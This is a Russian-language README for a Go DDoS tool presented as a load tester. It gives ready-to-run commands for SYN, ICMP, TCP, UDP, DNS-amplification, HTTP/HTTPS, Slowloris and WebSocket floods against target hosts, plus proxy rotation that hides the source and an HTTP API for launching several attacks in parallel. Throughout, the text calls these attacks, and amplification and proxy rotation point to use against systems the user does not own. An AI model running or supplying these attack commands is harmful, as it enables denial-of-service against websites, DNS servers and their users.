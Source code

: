 # 🚀 Универсальный инструмент для нагрузочного тестирования (L3/L4/L7)

## 📋 Инструкция по использованию

### 🔧 Требования
- Установленный Go (версии 1.16+)
- Linux/Windows/MacOS
- Dоступ к интернету

### 📥 Установка
```bash
git clone https://github.com/yourrepo/stress-tool.git
cd stress-tool
go build -o stresser
```

### 🛠 Настройка

1. Создайте файл с прокси (если нужно):

```bash
echo "1.1.1.1:8080" > proxies.txt
echo "2.2.2.2:3128" >> proxies.txt
```

### 🎯 Запуск атак

#### 🔥 L3 Атаки (Сетевой уровень)
```bash
# SYN Flood
./stresser target.com:80 SYN 5000 60

# ICMP Flood (требует root)
sudo ./stresser target.com ICMP 3000 120
```

### 🌊 L4 Атаки (Транспортный уровень)

```
# TCP Flood
./stresser target.com:443 TCP 10000 300

# UDP Flood
./stresser target.com:53 UDP 8000 180

# DNS Amplification
./stresser dns-server.com DNS 5000 60
```

### 💻 L7 Атаки (Прикладной уровень)

```
# HTTP Flood
./stresser http://target.com HTTP 20000 600

# HTTPS Flood
./stresser https://target.com HTTPS 15000 300

# Slowloris
./stresser target.com:80 SLOWLORIS 500 3600
```

### 📊 Параметры запуска

```text
./stresser <цель> <тип атаки> <количество потоков> <время в секундах> [размер пакета]

Пример:
./stresser example.com:80 TCP 10000 60 1024
```

### 🧰 Дополнительные функции
```
1. **Автоповтор** - автоматически переподключается при обрывах
2. **Ротация прокси** - если указан файл proxies.txt
3. **Статистика в реальном времени** - показывает RPS и успешные запросы
```

---

## 📝 Гайд по расширенным функциям

### WebSocket атака

```bash
./stresser ws://target.com:8080 WEBSOCKET 1000 60
```

### Кастомные HTTP-заголовки

Передавайте 6-м аргументом строку вида:
```
"Header1:Value1;Header2:Value2"
```
Пример:
```bash
./stresser https://target.com HTTP 5000 120 2048 "X-Api-Key:123;X-Test:1"
```

### Поддержка SOCKS5 прокси

В файле proxies.txt указывайте адреса SOCKS5-прокси. Для активации SOCKS5 прокси установите переменную окружения:
```bash
export PROXY_TYPE=socks5
```

### Автообновление списка прокси

Файл proxies.txt перечитывается автоматически каждые 30 секунд. Просто обновите файл — новые прокси будут подхвачены.

### Логирование ошибок

Все ошибки пишутся в файл `errors.log` в корне проекта.

### Множественные атаки (через API)

Можно запускать несколько атак параллельно через HTTP API.

### HTTP API для управления атаками

- Запуск атаки:
  ```bash
  curl "http://localhost:8081/start?target=example.com&type=HTTP&threads=100&duration=60"
  ```
- Остановить атаку:
  ```bash
  curl "http://localhost:8081/stop"
  ```
- Статус:
  ```bash
  curl "http://localhost:8081/status"
  ```

---

Остальные задачи отмечены как [-] и будут реализованы в будущих версиях.
